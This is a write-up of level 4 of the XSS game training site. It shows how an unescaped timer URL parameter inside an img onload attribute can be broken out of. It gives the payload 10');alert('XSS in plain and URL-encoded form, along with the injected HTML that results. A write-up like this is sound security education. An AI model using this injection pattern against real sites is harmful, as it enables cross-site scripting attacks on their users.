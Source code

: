 # Level 4: Context matters

URL: [https://xss-game.appspot.com/level4](https://xss-game.appspot.com/level4)

![Xss Game Appspot Level 4 Image](img/level-4.png)

## Mission Description

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear.

## Analysis

The page has a create timer button that executes a get form action which is then passed to the page via the timer parameter.

![Xss Game Appspot Level 4 Frame Url](img/timer-param.png)

Upon further inspection of the page `timer.html` line `21`, it was found that the value of the timer in the URL is passed to the `startTimer()` function by the onload attribute of an **`img`** tag.

![Xss Game Appspot Level 4 StarTimer Function](img/start-timer-function.png)

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

## Conclusion

We can craft a javascript payload that, will get executed on the `onload` attribute pop the alert box.

```javascript
10');alert('XSS
10%27%29%3Balert%28%27XSS
```

### How does the payload work?

When we put `10')` it will close the `startTimer()` function and add an `alert()` as a separate code block.

### Our injected payload

```html
<img src="/static/loading.gif" onload="startTimer('10');alert('XSS');">
```

![Xss Game Appspot Level 4 Solved](img/level-4-solved.png)
